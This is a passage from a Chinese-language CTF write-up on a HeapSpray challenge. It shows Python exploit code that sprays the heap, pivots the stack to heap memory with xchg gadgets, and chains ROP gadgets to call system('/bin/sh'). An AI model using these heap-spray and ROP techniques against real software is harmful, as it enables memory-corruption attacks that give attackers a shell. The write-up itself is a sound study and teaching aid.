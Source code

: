 获取Libc之后，我们很容易想到控制CallFunction去执行libc里的gadget。通过控制****(heap_ptr) = 0, **(heap_ptr + 4) = gadget**，另外将heap_ptr地址残留至低4 byte即可

```
gadgets = [0x3ac5c, 0x3ac5e, 0x3ac62, 0x3ac69, 0x3ac8c, 0x3ac8d, 0x5fbc5, 0x5fbc6]
    for i in range(0x10):
        data.append([p32(heap_start_addr + 8) * (0x1000 / 4 -1), 1])    #fd作为最后4 byte

    malloc(0x1000, data)

    delete()

    data = []
    for i in range(0x10):                      # last 4 byte will be heap_start_addr+8
                                # [heap_start_addr+8]=0 [heap_start_addr+12] = gadget
        data.append([p32(0) + p32(libc_addr + gadgets[0]), 0])

    malloc(0xa0, data)
    callfuc(0)                    # call gadget
```

调试发现，虽然成功执行了gadget，却没能get shell，因为call eax时，不满足gadget的条件。

所以还是不能偷懒，需要布置ROP。由于我们的payload是在堆上，所以需要将栈迁移到堆上，即esp需要指向我们可控的堆地址。

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

可以看到在CallFunction中，ecx指向堆地址，且在call eax之前没有改动过。所以最好是实现**xchg ecx, esp**

使用ROPgadget查找，虽然没有找到直接的，但是找到间接可以实现相同目的的。

```
magic_gadget1 = 0x00164301  # 0x00161871 : xchg eax, ecx ; cld ; call dword pre [eax]
    magic_gadget2 = 0x00073b6a  # 0x00073b6a : xchg eax, esp ;  ;mov esi, eax ; add esp, 0x14 ; mov eax, esi ; pop ebx ; pop esi ; ret
```

通过gadget1调至gadget2，pop多余数据，最终调至system(“/bin/sh”)

```
data = []

    for i in range(0x10):
        data.append([p32(heap_start_addr + 12) * (0x1000 / 4 - 1), 1])

    malloc(0x1000, data)
    delete()

    data = []
    for i in range(0x10):

        data.append([(p32(libc_addr + magic_gadget2) + p32(0) + p32(libc_addr
    + magic_gadget1) + p32(0) * 4 + p32(libc_addr + system_offest) + p32(0) +
    p32(libc_addr + binsh_addr)).ljust(0xa0 -1, 'x00'), 0])

    malloc(0xa0, data)

    dbg()
    callfuc(0)
```

这个题目很有新意，也让我感到惊喜！HeapSpray还有哪些好玩的呢？
